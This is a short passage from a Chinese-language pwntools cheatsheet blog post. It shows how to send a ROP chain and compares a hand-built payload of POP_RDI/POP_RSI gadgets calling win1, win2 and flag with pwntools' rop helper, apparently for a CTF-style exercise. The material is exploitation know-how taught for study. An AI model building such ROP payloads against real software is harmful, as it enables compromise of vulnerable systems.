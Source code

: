 ### 1x06 发送 ROP 链

```python
p.sendline(rop.chain())
```

### 1x07 对比

不使用 pwntools：

```python
payload = flat(
    POP_RDI,
    0xdeadc0de,
    elf.sym['win1'],
    POP_RDI,
    0xdeadbeef,
    POP_RSI,
    0x98765432,
    elf.sym['win2'],
    POP_RDI,
    0x54545454,
    elf.sym['flag']
)

p.sendline(payload)
```

使用 pwntools：

```python
rop.win1(0xdeadc0de)
rop.win2(0xdeadbeef, 0x98765432)
rop.flag(0x54545454)

p.sendline(rop.chain())
```



---

> 作者: CuB3y0nd  
> URL: https://www.cubeyond.net/pwntools-cheetsheet/  

